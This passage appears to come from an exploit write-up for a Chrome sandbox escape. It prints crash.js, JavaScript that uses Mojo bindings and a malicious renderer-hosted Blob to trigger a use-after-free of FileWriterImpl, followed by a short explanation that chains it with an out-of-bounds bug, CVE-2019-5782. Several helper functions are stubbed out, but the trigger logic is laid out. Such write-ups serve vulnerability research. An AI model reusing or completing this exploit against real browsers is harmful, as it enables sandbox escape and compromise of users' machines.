 ```js
// crash.js

async function CreateWriter() {
  // create writer from blink.mojom.FileSystemManagerPtr ...
}

async function RegisterBlob0() {
  // register blob_0 to blob registry ...
}

async function crash(oob) {
  print('[sandbox_escape] exploiting issue_1755 to escape sandbox and crash browser');

  var writer = await CreateWriter()

  print('  [*] crafting renderer-hosted blob implementation')
  function Blob0Impl() {
    this.binding = new mojo.Binding(blink.mojom.Blob, this);
  }
  Blob0Impl.prototype = {
    getInternalUUID: async (arg0) => {
      print('  [*] getInternalUUID is called');

      print('  [!] freeing FileWriterImpl');
      create_writer_result.writer.ptr.reset();

      // sleep 3 seconds ...

      print('  [*] resuming FileWriterImpl::DoWrite, prepare to crash');
      return {'uuid': 'blob_0'};
    }
  };

  RegisterBlob0();

  let blob_impl = new Blob0Impl();
  let blob_impl_ptr = new blink.mojom.BlobPtr();
  blob_impl.binding.bind(mojo.makeRequest(blob_impl_ptr));

  print('  [*] calling Write with renderer-hosted blob implementation')
  writer.writer.write(0, blob_impl_ptr);
}
```

In `index.html`, we are setting up the out-of-bound read/write bug by exploiting CVE-2019-5782.
Then, at first we visit the page, we enable the Mojo binding, and reload the page.
Now that the Mojo binding is enabled (not undefined), we call the `crash` function.

In `crash` function, we are registering a blob with id `blob_0` to blob registry,
then we define our custom Blob implementation with a malicious implemenation of `getInternalUUID`.
Finally we call the `Write` function with a custom renderer-hosted blob implementation.
